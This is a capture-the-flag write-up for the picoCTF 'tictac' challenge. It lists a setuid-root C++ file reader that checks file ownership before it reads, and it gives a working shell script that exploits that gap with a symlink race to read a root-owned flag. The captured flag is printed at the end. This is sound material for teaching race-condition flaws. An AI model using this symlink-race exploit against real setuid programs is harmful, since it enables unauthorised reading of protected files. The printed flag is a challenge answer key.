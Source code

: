 # tictac
Points: 200

This challenge provides a ssh shell where the home directory contains three
files, `src.cpp`, `txtreader`, and `flag.txt`. Attempting to cat flag.txt
does not work because we do not have root permissions.

source for `txtreader`:
```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

We can see that `txtreader` is a program that only outputs a files contents
if the user running `txtreader` also owns the file it is attempting to read.
Additionally, `txtreader` runs with root permissions.

It is fairly obvious this is a symlink problem, where you infinitely symlink
between a owned flag.txt and the real flag.txt. Then in a separate loop infinitely
run `txtreader` until it outputs the flag. The idea here is that if you do this
enough `txtreader` will access our fake flag file with the first check, but then
output the contents of the real flag file because it was re-symlinked in the middle
of program execution.

```sh
mkdir -p victim/link
cd victim
touch link/flag.txt
printf 'while [ 1 ]\ndo\nln -sf link/flag.txt flag.txt\nln -sf ../flag.txt flag.txt\ndone' > attack.sh
chmod +x ./attack.sh
printf 'while [ 1 ]\ndo\n../txtreader flag.txt\ndone\n' > reader.sh
chmod +x ./reader.sh
./attack.sh &
./reader.sh 2>1 | grep "pico"
```

# Flag: `picoCTF{ToctoU_!s_3a5y_007659c9}`